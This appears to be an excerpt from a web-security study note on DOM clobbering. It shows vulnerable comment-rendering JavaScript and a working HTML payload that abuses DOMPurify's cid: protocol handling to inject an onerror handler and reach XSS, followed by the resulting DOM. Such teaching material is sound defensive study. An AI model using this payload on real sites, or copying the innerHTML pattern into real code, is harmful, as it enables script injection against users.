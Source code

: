 >[!example]
>A web site allows to post HTML comments and retrieve them with an external JSON. It uses DomPurify to allow only safe objects.

Vulnerable code (*/resources/js/loadCommentsWithDomClobbering.js*):
```js
...
   function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");
			
			// vulnerable code!
            let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
            let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">'; 

            let divImgContainer = document.createElement("div");
            divImgContainer.innerHTML = avatarImgHTML
...
```

By default, the DOM looks like this:
```html
<section class="comment"><p>Zach Ache | 14-06-2023<div><img class="avatar" src="/resources/images/avatarDefault.svg"></div></p><p>If I wanted to laugh and be well informed I'd have chosen not to be such a cynical old man. Please write things I can complain about in future. Don't keep up the good work.</p><p></p></section>
```

But we can clobber the `avatar` variable using a payload like the following one, thus obtaining [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md):
```html
<!-- DOMPurify allows you to use the `cid:` protocol, which does not URL-encode double-quotes. This means you can inject an encoded double-quote that will be decoded at runtime. -->
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

<!-- resulting DOM - first gadget -->
<section class="comment"><p><a id="author" href="https://foo.bar"></a>foo | 01-07-2023<div><img class="avatar" src="/resources/images/avatarDefault.svg"></div></p><p><a id="defaultAvatar"></a><a href="cid:&quot;onerror=alert(1)//" name="avatar" id="defaultAvatar"></a></p><p></p></section>

<!-- resulting DOM - trigger gadget -->
<section class="comment"><p><a id="author" href="https://foo.bar"></a>foo | 01-07-2023<div><img class="avatar" src="cid:" onerror="alert(1)//&quot;"></div></p><p>foo</p><p></p></section>
```


[^pdf]: [Hunting postMessage Vulnerabilities](https://appcheck-ng.com/wp-content/uploads/Hunting-postMessage-Vulnerabilities.pdf), Gary O’Leary-Steele 
[^46252]: [Who Are You The Importance of Verifying Message Origins - CVE-2023-46252](../../Readwise/Articles/Stefan%20Schiller%20-%20Who%20Are%20You%20The%20Importance%20of%20Verifying%20Message%20Origins.md#^3bbba8); Stefan Schiller, Sonar
[^debug-post-message]: [How to debug postMessages](https://arthurdenner.medium.com/how-to-debug-postmessages-320d50056d0), arthurdenner.medium.com
[^dev-tool-debug]: [67 Weird Debugging Tricks Your Browser Doesn't Want You to Know](../../Readwise/Articles/norbauer.com%20-%2067%20Weird%20Debugging%20Tricks%20Your%20Browser%20Doesn't%20Want%20You%20to%20Know.md), norbauser.com
[^domspy]: [Erik - Last Week in Security (LWiS) - 2025-01-06](../../Readwise/Articles/Erik%20-%20Last%20Week%20in%20Security%20(LWiS)%20-%202025-01-06.md#^5d4fbd)
